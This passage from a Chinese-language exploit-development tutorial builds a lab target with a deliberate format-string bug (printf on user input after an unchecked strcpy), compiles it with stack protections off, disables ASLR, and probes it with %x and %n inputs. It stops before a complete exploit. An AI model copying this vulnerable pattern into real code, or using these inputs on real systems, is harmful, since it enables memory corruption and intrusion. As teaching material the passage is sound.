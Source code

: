 # 如何做...

以下是在 Linux 环境中创建利用格式字符串的利用脚本的步骤：

1.  首先，我们需要创建一个有漏洞的应用程序。因此，我们可以编写一个具有格式字符串漏洞的 C 文件。创建一个`fmt.c`文件并在编辑器中打开它。

1.  添加以下代码并保存：

```py
#include <stdio.h>  
int main(int argc, char **argv){ 
        char buf[1024]; 
        strcpy(buf, argv[1]); 
        printf(buf); 
        printf("\n"); 
} 
```

1.  我们需要使用禁用格式安全性的编译此代码。为此，请运行以下命令：

```py
gcc fmt.c -w -g -Wno-format -Wno-format-security -fno-stack-protector -z norelro -z execstack -o fmt  
```

这将创建一个名为`fmt`的可执行文件。我们可以将其用作我们的示例应用程序。

1.  确保在测试机器上禁用**地址空间布局随机化**（**ASLR**）：

```py
sysctl -w kernel.randomize_va_space=0    
```

1.  现在我们可以运行应用程序进行测试：

```py
./fmt TEST    
```

这将打印传递给应用程序的参数

1.  然后我们将使用格式字符串输入测试应用程序：

```py
./fmt %x%x%x%x
./fmt %n%n%n%n  
```

![](img/00113.jpeg)

这里的第一个测试从堆栈打印一些十六进制值，但第二个将值写入堆栈值指向的内存位置，最终导致分段错误。因此，从测试结果来看，很明显我们可以从 RAM 中读取，也可以向 RAM 中写入。

1.  现在我们可以更改输入并尝试控制参数：

```py
./fmt AAAA.%x.%x.%x.%x    
./fmt BBBB.%x.%x.%x.%x  
```

![](img/00114.jpeg)
